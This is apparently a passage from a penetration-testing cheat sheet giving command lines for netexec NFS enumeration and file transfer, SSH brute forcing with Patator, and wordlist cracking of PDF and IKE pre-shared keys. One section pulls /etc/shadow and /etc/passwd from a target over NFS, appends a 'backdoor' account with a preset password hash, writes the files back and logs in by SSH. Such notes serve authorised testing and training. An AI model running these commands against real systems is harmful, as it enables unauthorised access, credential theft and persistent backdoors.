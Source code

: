 ```console
$ netexec nfs <RHOST>
$ netexec nfs <RHOST> --shares
$ netexec nfs <RHOST> --enum-shares
$ netexec nfs <RHOST> --share '/var/nfs/general' --ls '/'
```

#### File Handling

```console
$ netexec nfs <RHOST> --get-file /PATH/TO/FOLDER/<FILE> <FILE>
$ netexec nfs <RHOST> --put-file <FILE> /PATH/TO/FOLDER/<FILE>
```

#### Escape to root File System

| Username | Password |
| --- | --- |
| backdoor | P@ssword123! |

```console
$ netexec nfs <RHOST> --ls '/'
$ netexec nfs <RHOST> --get-file '/etc/shadow' etc_shadow
$ netexec nfs <RHOST> --get-file '/etc/passwd' etc_passwd
$ echo 'backdoor$6$QF0YMBn9$Gj7DTxYtq7ie3zTOSSHrFsp2DpWqTpV0xunqkGxU7UlK8tZkW6zzFNRy8GwsVqYFxflK0zPbAAKQt6VwAhWqsyO:18000:0:99999:7:::' >> etc_shadow
$ echo 'backdoor:x:1003:1001:,,,:/home/backdoor:/bin/bash' >> etc_passwd
$ netexec nfs <RHOST> --put-file etc_shadow '/etc/shadow'
$ netexec nfs <RHOST> --put-file etc_passwd '/etc/passwd'
$ ssh backdoor@<RHOST>
```

## Patator

> https://github.com/lanjelot/patator

```console
$ patator ssh_login host=<RHOST> port=<RPORT> user=<USERNAME> password=FILE0 0=/PATH/TO/WORDLIST/<WORDLIST> persistent=0 -x ignore:mesg='Authentication failed.'
$ patator ssh_login host=<RHOST> port=<RPORT> user=<USERNAME> password=FILE0 0=/PATH/TO/WORDLIST/<WORDLIST> persistent=0 -x ignore:fgrep='failed'
$ patator ssh_login host=<RHOST> port=<RPORT> user=<USERNAME> password=FILE0 0=/PATH/TO/WORDLIST/<WORDLIST> persistent=0 -x ignore:egrep='failed'
```

## PDFCrack

```console
$ pdfcrack -f file.pdf -w /PATH/TO/WORDLIST/<WORDLIST>
```

## psk-crack

```console
$ psk-crack <FILE> -d /PATH/TO/WORDLIST/<WORDLIST>
```
